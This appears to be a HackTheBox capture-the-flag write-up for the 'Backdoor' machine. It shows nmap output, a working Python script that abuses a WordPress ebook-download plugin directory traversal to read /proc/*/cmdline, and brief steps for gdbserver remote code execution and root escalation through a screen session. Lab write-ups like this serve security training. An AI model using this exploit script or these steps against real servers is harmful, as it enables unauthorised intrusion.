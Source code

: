 ```yaml
---
title: HackTheBox - Backdoor 
categories: htb LFI RCE
excerpt: | 
  Backdoor is an easy difficulty Linux machine. 

feature_text: |
  ## Backdoor - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```



### Scanning process
nmap ip:
``` 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

``` 
Starting with port 80... We have to examine what type of service is, so `whatweb 'http://10.10.11.125'` will determine the following steps. 
It is running WordPress, it is known that some directories are abaible like wp-content and specifically `wp-content/plugins`. It is usual that a service like WordPress has some plugins outdate. And it is our case. 
`searchsploit wordpress ebook download` is vulnerable to a Directory traversal attacks.


### Scripting in python
Now it's time to type some code in python to exploit this LFI. There are some path that are interesting to search into, like /proc where are located all active processes and how they were runed.
``` python
#!/usr/bin/python3

from pwn import *
import time, pdb, signal, sys, requests

# Global
main_url = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"

# Ctrl+C
def def_handler(signum, frame):
    print("[!] Saliendo...")
    sys.exit(1)

def bruteForce():
    p1 = log.progress("Brute Force:")
    p1.status("Starting attack")

    s = requests.session()
    time.sleep(2)

    for i in range(1, 1000):
        p1.status("Trying with /proc/%s/cmdline" % str(i))
        
        url = main_url + str(i) + "/cmdline"
        r = s.get(url)
        if( len(r.content) > 82 ):
            print("------------------------------------------------")
            log.info("/proc/%s/cmdline" % str(i))
            print(r.content)
            print("------------------------------------------------")

signal.signal(signal.SIGINT, def_handler)

if __name__ == "__main__":
    bruteForce()

```
>[*] /proc/858/cmdline
>/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \\;; done'

>[*] /proc/859/cmdline
>/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done'


We found a gdbserver running in port 1337. `searchsploit gdbserver` and follow the RCE attack. You will be 'user'


### Privilege scalation
Finally we have to search  SUID privilege and there would be some ways to go to /root. This time we can see `/usr/bin/screen` and we saw the cmdline of this process before...
There is a session named as root that we can use. `screen -x root/`. It is all, you are root!

